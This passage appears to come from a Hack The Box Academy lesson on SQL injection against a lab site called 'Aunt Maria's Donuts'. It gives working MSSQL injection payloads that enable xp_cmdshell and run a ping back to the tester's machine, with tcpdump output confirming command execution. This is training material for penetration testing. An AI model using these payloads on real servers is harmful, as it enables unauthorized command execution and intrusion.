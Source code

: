 In the case of `Aunt Maria's Donuts`, the payload will look like this:

```sql
';exec sp_configure 'show advanced options','1';reconfigure;--

```

URL-Encode, inject, and we should get a regular response from the server if it worked correctly:

![](https://academy.hackthebox.com/storage/modules/177/amdonuts/15.png)

Next, we will enable `xp_cmdshell` (it is an advanced option, so make sure to run this previous query first). The commands are:

```sql
EXEC sp_configure 'xp_cmdshell', '1';
RECONFIGURE;

```

The payload (before URL-Encoding) is:

```sql
';exec sp_configure 'xp_cmdshell','1';reconfigure;--

```

And once again a successful injection should return a regular response:

![](https://academy.hackthebox.com/storage/modules/177/amdonuts/15.png)

At this point, `xp_cmdshell` should be enabled, but just to make sure we can `ping` ourselves a couple of times. The command to do this looks like this:

```sql
EXEC xp_cmdshell 'ping /n 4 192.168.43.164';

```

And as a payload like this:

```sql
';exec xp_cmdshell 'ping /n 4 192.168.43.164';--

```

Make sure to start `tcpdump` on the correct interface "(which would be `tun0` for Pwnbox)" before running the payload, and you should see `4` pairs of ICMP request/reply packets:

```shell
sudo tcpdump -i eth0
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
<SNIP>
07:41:13.167468 IP 192.168.43.156 > 192.168.43.164: ICMP echo request, id 1, seq 6, length 40
07:41:13.167500 IP 192.168.43.164 > 192.168.43.156: ICMP echo reply, id 1, seq 6, length 40
07:41:14.218855 IP 192.168.43.156 > 192.168.43.164: ICMP echo request, id 1, seq 7, length 40
07:41:14.218928 IP 192.168.43.164 > 192.168.43.156: ICMP echo reply, id 1, seq 7, length 40
07:41:15.190453 IP 192.168.43.156 > 192.168.43.164: ICMP echo request, id 1, seq 8, length 40
07:41:15.190515 IP 192.168.43.164 > 192.168.43.156: ICMP echo reply, id 1, seq 8, length 40
07:41:16.209580 IP 192.168.43.156 > 192.168.43.164: ICMP echo request, id 1, seq 9, length 40
07:41:16.209615 IP 192.168.43.164 > 192.168.43.156: ICMP echo reply, id 1, seq 9, length 40
<SNIP>
^C
29 packets captured
29 packets received by filter
0 packets dropped by kernel

```
